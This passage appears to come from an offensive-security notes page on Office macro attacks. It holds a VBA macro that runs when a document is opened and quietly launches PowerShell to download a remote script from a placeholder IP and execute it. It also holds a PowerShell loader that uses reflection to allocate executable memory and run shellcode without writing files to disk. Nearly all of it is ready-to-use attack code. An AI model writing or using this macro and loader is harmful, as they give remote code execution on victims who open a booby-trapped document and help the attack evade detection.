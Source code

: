 Then, inside your macro use:

```text
Sub DocMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://<ip>/xct.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    DocMacro
End Sub
Sub AutoOpen()
    DocMacro
End Sub
```

Note that this method leaves some artifacts on disk \(Add-Type will write .cs files and compile them into .dlls\), the next snippet prevents this by creating the .NET assembly in memory via reflection.

### Run Shellcode from Macro via PowerShell using Reflection

```text
function LookupFunc {
	Param ($moduleName, $functionName)
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
	Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$tmp=@()
	$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
	@($moduleName)), $functionName))
}

function getDelegateType {
	Param (
	[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
	[Parameter(Position = 1)] [Type] $delType = [Void]
	)
	$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
	$type.DefineConstructor('RTSpecialName, HideBySig, Public',	[System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
	$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
	return $type.CreateType()
}
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType ([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc, ...
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr])([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)

```